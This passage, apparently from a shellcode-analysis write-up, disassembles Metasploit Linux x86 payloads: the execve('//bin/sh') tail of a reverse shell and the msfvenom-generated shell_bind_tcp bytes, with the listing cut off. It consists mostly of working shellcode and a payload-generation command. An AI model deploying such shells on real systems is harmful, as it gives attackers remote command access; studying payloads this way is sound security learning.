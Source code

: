 ```
0000002D  CD80              int 0x80 				; call connect!
```
This last bit is for actually executing the shell, via our good friend execve 
```
0000002F  52                push edx 				; push NULL onto the stack as first arg
00000030  686E2F7368        push dword 0x68732f6e	; 
00000035  682F2F6269        push dword 0x69622f2f	; pushing //bin/sh onto the stack (backwards)
0000003A  89E3              mov ebx,esp 			; move the pointer to //bin/sh into ebx
0000003C  52                push edx 				; push another NULL
0000003D  53                push ebx 				; push the address of //bin/sh onto the stack
0000003E  89E1              mov ecx,esp 			; move the arguments into ecx
00000040  B00B              mov al,0xb 				; pass in the execve syscall number
00000042  CD80              int 0x80 				; call execve
```
There's nothing exceptionally different about how msf's shellcodes work, but they're clearly more well optimized than my reverse shell was.

Next up, a non-staged bind shell.


#### shell_bind_tcp
```
$ msfvenom -p linux/x86/shell_bind_tcp LHOST=192.168.1.1 LPORT=4444 -f raw | ndisasm -u -
/var/lib/gems/2.5.0/gems/bundler-1.17.3/lib/bundler/rubygems_integration.rb:200: warning: constant Gem::ConfigMap is deprecated
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes

00000000  31DB              xor ebx,ebx
00000002  F7E3              mul ebx
00000004  53                push ebx
00000005  43                inc ebx
00000006  53                push ebx
00000007  6A02              push byte +0x2
00000009  89E1              mov ecx,esp
0000000B  B066              mov al,0x66
0000000D  CD80              int 0x80
0000000F  5B                pop ebx
00000010  5E                pop esi
00000011  52                push edx
00000012  680200115C        push dword 0x5c110002
00000017  6A10              push byte +0x10
00000019  51                push ecx
0000001A  50                push eax
0000001B  89E1              mov ecx,esp
0000001D  6A66              push byte +0x66
0000001F  58                pop eax
00000020  CD80              int 0x80
00000022  894104            mov [ecx+0x4],eax
00000025  B304              mov bl,0x4
00000027  B066              mov al,0x66
00000029  CD80              int 0x80
0000002B  43                inc ebx
0000002C  B066              mov al,0x66
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
```